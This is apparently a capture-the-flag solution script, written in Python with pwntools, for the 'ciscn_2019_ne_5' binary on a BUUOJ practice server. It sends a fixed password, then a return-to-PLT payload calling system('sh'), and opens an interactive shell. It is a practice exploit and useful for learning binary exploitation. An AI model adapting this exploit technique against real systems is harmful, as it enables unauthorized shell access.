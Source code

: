 ## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    fit,
    process,
    raw_input,
    remote,
)

FILE = "./ciscn_2019_ne_5"
HOST, PORT = "node5.buuoj.cn", 27219

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    target.sendlineafter(b"password:", b"administrator")

    payload = fit(
        {
            0x4C: elf.plt["system"],
            0x50: elf.plt["exit"],
            0x54: next(elf.search(b"sh")),
        }
    )
    # raw_input("DEBUG")
    target.sendlineafter(b"Exit", str(1).encode())
    target.sendlineafter(b"info:", payload)
    target.sendlineafter(b"Exit", str(4).encode())

    target.interactive()


if __name__ == "__main__":
    main()
```
